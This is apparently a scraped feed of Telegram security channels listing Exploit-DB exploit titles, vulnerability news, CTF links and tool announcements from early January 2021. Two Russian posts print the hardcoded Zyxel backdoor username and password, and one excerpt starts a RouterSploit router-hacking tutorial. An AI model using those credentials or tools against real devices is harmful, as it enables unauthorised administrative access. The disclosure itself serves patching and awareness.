`2021-01-06 18:53:46`

<blockquote>
[webapps] Gitea 1.7.5 - Remote Code Execution
https://www.exploit-db.com/exploits/49383

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49383">
https://www.exploit-db.com/exploits/49383
</a>
<blockquote>
Gitea 1.7.5 - Remote Code Execution. CVE-2019-11229 . webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-06 18:53:45`

<blockquote>
[local] PaperStream IP (TWAIN) 1.42.0.5685 - Local Privilege Escalation
https://www.exploit-db.com/exploits/49382

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49382">
https://www.exploit-db.com/exploits/49382
</a>
<blockquote>
PaperStream IP (TWAIN) 1.42.0.5685 - Local Privilege Escalation. CVE-2018-16156 . local exploit for Windows platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-06 18:53:44`

<blockquote>
[webapps] Resumes Management and Job Application Website 1.0 - Multiple Stored XSS
https://www.exploit-db.com/exploits/49381

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49381?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49381?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Resumes Management and Job Application Website 1.0 - Multiple Stored XSS.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-06 17:53:23`

<blockquote>
[webapps] Resumes Management and Job Application Website 1.0 - RCE (Unauthenticated)
https://www.exploit-db.com/exploits/49380

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49380?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49380?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Resumes Management and Job Application Website 1.0 - RCE (Unauthenticated).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-06 16:53:26`

<blockquote>
[local] WinAVR Version 20100110 - Insecure Folder Permissions
https://www.exploit-db.com/exploits/49379

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49379?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49379?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
WinAVR Version 20100110 - Insecure Folder Permissions.. local exploit for Windows platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-06 16:53:24`

<blockquote>
[webapps] Newgen Correspondence Management System (corms) eGov 12.0 - IDOR
https://www.exploit-db.com/exploits/49378

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49378?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49378?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Newgen Correspondence Management System (corms) eGov 12.0 - IDOR. CVE-2020-35737 . webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-06 16:53:23`

<blockquote>
[webapps] WordPress Plugin WP24 Domain Check 1.6.2 - 'fieldnameDomain' Stored Cross Site Scripting
https://www.exploit-db.com/exploits/49377

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49377?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49377?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
WordPress Plugin WP24 Domain Check 1.6.2 - 'fieldnameDomain' Stored Cross Site Scripting.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-06 16:53:21`

<blockquote>
[webapps] Responsive E-Learning System 1.0 - Stored Cross Site Scripting
https://www.exploit-db.com/exploits/49376

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49376?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49376?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Responsive E-Learning System 1.0 - Stored Cross Site Scripting.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-06 16:53:19`

<blockquote>
[webapps] Responsive E-Learning System 1.0 - Unrestricted File Upload to RCE
https://www.exploit-db.com/exploits/49375

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49375?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49375?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Responsive E-Learning System 1.0 - Unrestricted File Upload to RCE.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-06 16:53:17`

<blockquote>
[webapps] WordPress Plugin litespeed cache 3.6 - 'server_ip' Cross-Site Scripting
https://www.exploit-db.com/exploits/49374

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49374">
https://www.exploit-db.com/exploits/49374
</a>
<blockquote>
WordPress Plugin litespeed cache 3.6 - 'server_ip' Cross-Site Scripting.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-06 15:53:43`

<blockquote>
[webapps] Expense Tracker 1.0 - 'Expense Name' Stored Cross-Site Scripting
https://www.exploit-db.com/exploits/49373

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49373?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49373?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Expense Tracker 1.0 - 'Expense Name' Stored Cross-Site Scripting.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-06 15:53:42`

<blockquote>
[webapps] IPeakCMS 3.5 - Boolean-based blind SQLi
https://www.exploit-db.com/exploits/49372

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49372?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49372?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
IPeakCMS 3.5 - Boolean-based blind SQLi. CVE-2021-3018 . webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-06 15:53:40`

<blockquote>
[local] IObit Uninstaller 10 Pro - Unquoted Service Path
https://www.exploit-db.com/exploits/49371

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49371?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49371?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
IObit Uninstaller 10 Pro - Unquoted Service Path.. local exploit for Windows platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-06 15:53:37`

<blockquote>
[local] dirsearch 0.4.1 - CSV Injection
https://www.exploit-db.com/exploits/49370

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49370?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49370?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
dirsearch 0.4.1 - CSV Injection.. local exploit for Python platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-06 15:53:36`

<blockquote>
[webapps] Advanced Webhost Billing System 3.7.0 - Cross-Site Request Forgery (CSRF)
https://www.exploit-db.com/exploits/49369

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49369?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49369?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Advanced Webhost Billing System 3.7.0 - Cross-Site Request Forgery (CSRF).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-06 10:53:17`

<blockquote>
NTFS Remote Code Execution (CVE-2020-17096) Analysis - ZecOps Blog
https://www.reddit.com/r/netsec/comments/kr8def/ntfs_remote_code_execution_cve202017096_analysis/

via /r/netsec - Information Security News &amp; Discussion
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/kr8def/ntfs_remote_code_execution_cve202017096_analysis/">
https://www.reddit.com/r/netsec/comments/kr8def/ntfs_remote_code_execution_cve202017096_analysis/
</a>
<blockquote>
Posted in r/netsec by u/m417z • 2 points and 0 comments
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-01-06 07:30:49`

<blockquote>
&#35;shodansafari

https://censys.io/solarwinds-internet-wide-assessment

https://gist.github.com/0xsha/75616ef6f24067c4fb5b320c5dfa4965
</blockquote>

---

# chkpchat
`2021-01-05 15:16:55`

<blockquote>
Для информации, но возможно фэйк. 
Более 100 тысяч устройств Zyxel оказались с бэкдором - файерволлы, гейтвеи VPN, и тд содержат в себе захардкоженные логин-пароль для админского доступа удаленно. Логин zyfwp и пароль &quot;PrOw!aN_fXp&quot;, ну с кем не бывает.

https://www.eyecontrol.nl/blog/undocumented-user-account-in-zyxel-products.html

Информация об апдейтах устройств https://www.zyxel.com/support/CVE-2020-29583.shtml
</blockquote>

<table><tr><td><b>→</b><a href="https://www.eyecontrol.nl/blog/undocumented-user-account-in-zyxel-products.html">
https://www.eyecontrol.nl/blog/undocumented-user-account-in-zyxel-products.html
</a>
<blockquote>
Zyxel is a popular brand for firewalls that are marketed towards small and medium businesses. Their Unified Security Gateway (USG) product line is often used as a firewall or VPN gateway. As a lot of us are working from home, VPN-capable devices have been quite selling well lately.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-05 14:53:27`

<blockquote>
[webapps] EgavilanMedia User Registration &amp; Login System with Admin Panel 1.0 - Multiple Stored Cross-Site Scripting
https://www.exploit-db.com/exploits/49367

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49367?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49367?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
EgavilanMedia User Registration &amp; Login System with Admin Panel 1.0 - Multiple Stored Cross-Site Scripting.. webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-05 14:53:25`

<blockquote>
[webapps] Klog Server 2.4.1 - Command Injection (Unauthenticated)
https://www.exploit-db.com/exploits/49366

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49366?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49366?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Klog Server 2.4.1 - Command Injection (Unauthenticated). CVE-2020-35729 . webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-05 14:53:24`

<blockquote>
[webapps] Online Learning Management System 1.0 - RCE (Authenticated)
https://www.exploit-db.com/exploits/49365

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49365?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49365?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Online Learning Management System 1.0 - RCE (Authenticated).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-05 14:53:23`

<blockquote>
[webapps] CSZ CMS 1.2.9 - Multiple Cross-Site Scripting
https://www.exploit-db.com/exploits/49364

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49364?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49364?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
CSZ CMS 1.2.9 - Multiple Cross-Site Scripting.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-05 14:53:22`

<blockquote>
[local] Fluentd TD-agent plugin 4.0.1 - Insecure Folder Permission
https://www.exploit-db.com/exploits/49363

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49363">
https://www.exploit-db.com/exploits/49363
</a>
<blockquote>
Fluentd TD-agent plugin 4.0.1 - Insecure Folder Permission. CVE-2020-28169 . local exploit for Windows platform
</blockquote>
</td></tr></table>

---

# ctfchat
`2021-01-05 14:34:10`

* https://github.com/teamteamdev/ugractf-2019/blob/master/tasks/bow/WRITEUP.md

<blockquote>
Райтап на кек
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/teamteamdev/ugractf-2019/blob/master/tasks/bow/WRITEUP.md">
https://github.com/teamteamdev/ugractf-2019/blob/master/tasks/bow/WRITEUP.md
</a>
<blockquote>
10–11 июня 2019 · Соревнование по информационной безопасности - teamteamdev/ugractf-2019
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-05 13:53:44`

<blockquote>
[webapps] Cassandra Web 0.5.0 - Remote File Read
https://www.exploit-db.com/exploits/49362

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49362">
https://www.exploit-db.com/exploits/49362
</a>
<blockquote>
Cassandra Web 0.5.0 - Remote File Read.. webapps exploit for Linux platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-05 13:53:43`

<blockquote>
[webapps] HPE Edgeline Infrastructure Manager 1.0 - Multiple Remote Vulnerabilities
https://www.exploit-db.com/exploits/49361

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49361">
https://www.exploit-db.com/exploits/49361
</a>
<blockquote>
HPE Edgeline Infrastructure Manager 1.0 - Multiple Remote Vulnerabilities.. webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-05 13:53:41`

<blockquote>
[webapps] Zoom Meeting Connector 4.6.239.20200613 - Remote Root Exploit (Authenticated)
https://www.exploit-db.com/exploits/49360

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49360">
https://www.exploit-db.com/exploits/49360
</a>
<blockquote>
Zoom Meeting Connector 4.6.239.20200613 - Remote Root Exploit (Authenticated).. webapps exploit for Linux platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-05 13:53:37`

<blockquote>
[webapps] Responsive FileManager 9.13.4 - 'path' Path Traversal
https://www.exploit-db.com/exploits/49359

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49359?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49359?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Responsive FileManager 9.13.4 - 'path' Path Traversal.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-05 12:53:13`

<blockquote>
[webapps] Baby Care System 1.0 - 'Post title' Stored XSS
https://www.exploit-db.com/exploits/49358

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49358?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49358?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Baby Care System 1.0 - 'Post title' Stored XSS.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-05 12:53:11`

<blockquote>
[webapps] Responsive ELearning System 1.0 - 'id' Sql Injection
https://www.exploit-db.com/exploits/49357

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49357?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49357?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Responsive ELearning System 1.0 - 'id' Sql Injection.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-05 11:53:38`

<blockquote>
[webapps] Online Movie Streaming 1.0 - Authentication Bypass
https://www.exploit-db.com/exploits/49356

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49356">
https://www.exploit-db.com/exploits/49356
</a>
<blockquote>
Online Movie Streaming  1.0 - Authentication Bypass.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-05 11:53:37`

<blockquote>
[webapps] WordPress Plugin WP-Paginate 2.1.3 - 'preset' Stored XSS
https://www.exploit-db.com/exploits/49355

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49355">
https://www.exploit-db.com/exploits/49355
</a>
<blockquote>
WordPress Plugin WP-Paginate 2.1.3 - 'preset' Stored XSS.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-05 11:53:36`

<blockquote>
[webapps] WordPress Plugin Stripe Payments 2.0.39 - 'AcceptStripePayments-settings[currency_code]' Stored XSS
https://www.exploit-db.com/exploits/49354

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49354">
https://www.exploit-db.com/exploits/49354
</a>
<blockquote>
WordPress Plugin Stripe Payments 2.0.39 - 'AcceptStripePayments-settings[currency_code]' Stored XSS.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-05 11:53:34`

<blockquote>
[webapps] Resumes Management and Job Application Website 1.0 - Authentication Bypass (Sql Injection)
https://www.exploit-db.com/exploits/49353

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49353">
https://www.exploit-db.com/exploits/49353
</a>
<blockquote>
Resumes Management and Job Application Website 1.0 - Authentication Bypass (Sql Injection).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-05 11:53:32`

<blockquote>
[webapps] House Rental and Property Listing 1.0 - Multiple Stored XSS
https://www.exploit-db.com/exploits/49352

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49352?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49352?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
House Rental and Property Listing 1.0 - Multiple Stored XSS.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-05 11:53:31`

<blockquote>
[webapps] IncomCMS 2.0 - Insecure File Upload
https://www.exploit-db.com/exploits/49351

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49351?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49351?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
IncomCMS 2.0 - Insecure File Upload. CVE-2020-29597 . webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-05 11:53:29`

<blockquote>
[local] Intel(R) Matrix Storage Event Monitor x86 8.0.0.1039 - 'IAANTMON' Unquoted Service Path
https://www.exploit-db.com/exploits/49350

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49350">
https://www.exploit-db.com/exploits/49350
</a>
<blockquote>
Intel(R) Matrix Storage Event Monitor x86 8.0.0.1039 - 'IAANTMON' Unquoted Service Path.. local exploit for Windows platform
</blockquote>
</td></tr></table>

---

# cyberoffru
`2021-01-05 03:18:11`

<blockquote>
Более 100 тысяч устройств Zyxel оказались с бэкдором - файерволлы, гейтвеи VPN, и тд содержат в себе захардкоженные логин-пароль для админского доступа удаленно. Логин zyfwp и пароль &quot;PrOw!aN_fXp&quot;, ну с кем не бывает.

https://www.eyecontrol.nl/blog/undocumented-user-account-in-zyxel-products.html

Информация об апдейтах устройств https://www.zyxel.com/support/CVE-2020-29583.shtml
</blockquote>

<table><tr><td><b>→</b><a href="https://www.eyecontrol.nl/blog/undocumented-user-account-in-zyxel-products.html">
https://www.eyecontrol.nl/blog/undocumented-user-account-in-zyxel-products.html
</a>
<blockquote>
Zyxel is a popular brand for firewalls that are marketed towards small and medium businesses. Their Unified Security Gateway (USG) product line is often used as a firewall or VPN gateway. As a lot of us are working from home, VPN-capable devices have been quite selling well lately.
</blockquote>
</td></tr></table>

---

# ctfchat
`2021-01-05 00:17:33`

<blockquote>
https://github.com/aircrack-ng/rtl8188eus
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/aircrack-ng/rtl8188eus">
https://github.com/aircrack-ng/rtl8188eus
</a>
<blockquote>
RealTek RTL8188eus WiFi driver with monitor mode &amp; frame injection support - aircrack-ng/rtl8188eus
</blockquote>
</td></tr></table>

---

# overlamer1
`2021-01-04 23:52:09`

* https://telegra.ph/RouterSploit-Poisk-uyazvimostej-i-vzlom-Wi-Fi-routera-08-21

<blockquote>
RouterSploit: Поиск уязвимостей и взлом Wi-Fi роутера
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/RouterSploit-Poisk-uyazvimostej-i-vzlom-Wi-Fi-routera-08-21">
https://telegra.ph/RouterSploit-Poisk-uyazvimostej-i-vzlom-Wi-Fi-routera-08-21
</a>
<blockquote>
Все действия мы будем производить с помощью Termux. Для взлома роутеров есть подобная программа - &quot;RouterSploit&quot;. Она также, как и Metasploit, позволяет эксплуатировать уязвимости, но только у Wi-Fi роутеров. источник статьи Прежде чем устанавливать и запускать RouterSploit нужно прописать следующие команды: apt update &amp; upgrade apt install git apt install bash apt install python pip install futureapt apt install git figletgit git clone https://github.com/41Team/RoutersploitTermux Переходим в папку RoutersploitTermux…
</blockquote>
</td></tr></table>

---

# R0_Crew
`2021-01-04 21:21:46`

<blockquote>
A WIP &quot;Vulnerable by Design&quot; kext for iOS/macOS to play &amp; learn *OS kernel exploitation https://github.com/ant4g0nist/Vulnerable-Kext &#35;exploitation &#35;ios &#35;macos &#35;dukeBarman
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/ant4g0nist/Vulnerable-Kext">
https://github.com/ant4g0nist/Vulnerable-Kext
</a>
<blockquote>
A WIP &quot;Vulnerable by Design&quot; kext for iOS/macOS to play &amp; learn *OS kernel exploitation - ant4g0nist/Vulnerable-Kext
</blockquote>
</td></tr></table>

---

# webware
`2021-01-04 20:17:00`

* https://telegra.ph/file/d974068ecbc56f7607885.jpg

<blockquote>
​​Pegasus Chrysaor атакует WhatsApp

Некоторые владельцы мобильных телефонов по тем или иным причинам отключают автоматическое обновление ПО. Для них и предназначена очередная статья из серии “ОСТОРОЖНО!”. Facebook исправил критическую уязвимость нулевого дня в WhatsApp, обозначенную как CVE-2019-3568 , которая использовалась для удаленной установки программ-шпионов на телефоны путем вызова целевого устройства. Уязвимость нулевого дня в WhatsApp - это проблема переполнения буфера, которая влияет на стек VOIP WhatsApp. Удаленный злоумышленник может использовать уязвимость для выполнения произвольного кода, отправляя специально созданные пакеты SRTCP на целевое мобильное устройство.

Читать: https://codeby.net/threads/pegasus-chrysaor-atakuet-whatsapp.67775/

&#35;whatsapp &#35;cve &#35;pegasus
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/d974068ecbc56f7607885.jpg">
https://telegra.ph/file/d974068ecbc56f7607885.jpg
</a>
</td></tr></table>

---

# defcon_news
`2021-01-04 19:53:45`

<blockquote>
[webapps] Arteco Web Client DVR/NVR - 'SessionId' Brute Force
https://www.exploit-db.com/exploits/49348

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49348?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49348?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Arteco Web Client DVR/NVR - 'SessionId' Brute Force.. webapps exploit for Windows platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-04 19:53:44`

<blockquote>
[webapps] Click2Magic 1.1.5 - Stored Cross-Site Scripting
https://www.exploit-db.com/exploits/49347

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49347?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49347?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Click2Magic 1.1.5 - Stored Cross-Site Scripting.. webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-04 19:53:34`

<blockquote>
[webapps] Subrion CMS 4.2.1 - 'avatar[path]' XSS
https://www.exploit-db.com/exploits/49346

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49346">
https://www.exploit-db.com/exploits/49346
</a>
<blockquote>
Subrion CMS 4.2.1 - 'avatar[path]' XSS. CVE-2020-35437 . webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-04 18:53:17`

<blockquote>
[webapps] CMS Made Simple 2.2.15 - RCE (Authenticated)
https://www.exploit-db.com/exploits/49345

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49345">
https://www.exploit-db.com/exploits/49345
</a>
<blockquote>
CMS Made Simple 2.2.15 - RCE (Authenticated).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-04 18:53:16`

<blockquote>
[webapps] sar2html 3.2.1 - 'plot' Remote Code Execution
https://www.exploit-db.com/exploits/49344

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49344?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49344?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
sar2html 3.2.1 - 'plot' Remote Code Execution.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-04 18:53:10`

<blockquote>
[webapps] Advanced Comment System 1.0 - 'ACS_path' Path Traversal
https://www.exploit-db.com/exploits/49343

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49343?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49343?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Advanced Comment System 1.0 - 'ACS_path' Path Traversal. CVE-2020-35598 . webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# isast
`2021-01-04 18:09:03`

<blockquote>
Вы ведь знаете, что в го надо аккуратно с переменными из for-range обращаться, да?

Наверное каждый хоть раз обжигался о 
for k, v :&#61; range foo {
    go func() { run(k,v) }()
}

или что-то похожее, где &quot;захватывается&quot; значение в кложуре. Есть даже пропозал, что давайте от этого уйдём (в го2, когдатотам) https://github.com/golang/go/issues/20733

Там забавный комент добавили, может слышали, Let's Encrypt недавно откатили 3М+ сертификатов. Угадайте из-за чего)))

https://github.com/letsencrypt/boulder/pull/4690/files&#35;diff-d02067a9f9a2bed1110fd4e98641c2effcf5d1d5f18461e35d6ac1535f6e2c21L1411-R1414
</blockquote>

---

# reverseengineeringx
`2021-01-04 17:12:13`

<blockquote>
Malwoverview is a first response tool used for downloading and screening malware samples, suspicious URLs, IP address, domains. Malwoverview offers threat hunting information from Virus Total, Hybrid Analysis, URLHaus, Polyswarm, Malshare, Alien Vault, Malpedia, ThreatCrowd, Valhalla and it is able to scan Android devices against VT and HA.

https://github.com/alexandreborges/malwoverview
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/alexandreborges/malwoverview">
https://github.com/alexandreborges/malwoverview
</a>
<blockquote>
Malwoverview is a first response tool used for threat hunting and offers intel information from Virus Total, Hybrid Analysis, URLHaus, Polyswarm, Malshare, Alien Vault, Malpedia, ThreatCrowd, Valha...
</blockquote>
</td></tr></table>

---

# sysadm_in_channel
`2021-01-04 16:59:16`

<blockquote>
Взлом Google Audio reCAPTCHA с помощью собственного API преобразования текста в текст

PoC:

GitHub - NikolaiT/uncaptcha3: Update of uncaptcha2 from 2019
https://github.com/NikolaiT/uncaptcha3

Исследование:

https://incolumitas.com/2021/01/02/breaking-audio-recaptcha-with-googles-own-speech-to-text-api/
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/NikolaiT/uncaptcha3">
https://github.com/NikolaiT/uncaptcha3
</a>
<blockquote>
Update of uncaptcha2 from 2019. Contribute to NikolaiT/uncaptcha3 development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-04 12:53:25`

<blockquote>
[local] Knockpy 4.1.1 - CSV Injection
https://www.exploit-db.com/exploits/49342

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49342?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49342?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Knockpy 4.1.1 - CSV Injection.. local exploit for Python platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-04 12:53:23`

<blockquote>
[webapps] Mantis Bug Tracker 2.24.3 - 'access' SQL Injection
https://www.exploit-db.com/exploits/49340

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49340">
https://www.exploit-db.com/exploits/49340
</a>
<blockquote>
Mantis Bug Tracker 2.24.3 - 'access' SQL Injection. CVE-2020-28413 . webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-04 12:53:21`

<blockquote>
[webapps] 4images v1.7.11 - 'Profile Image' Stored Cross-Site Scripting
https://www.exploit-db.com/exploits/49339

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49339?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49339?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
4images v1.7.11 - 'Profile Image' Stored Cross-Site Scripting.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
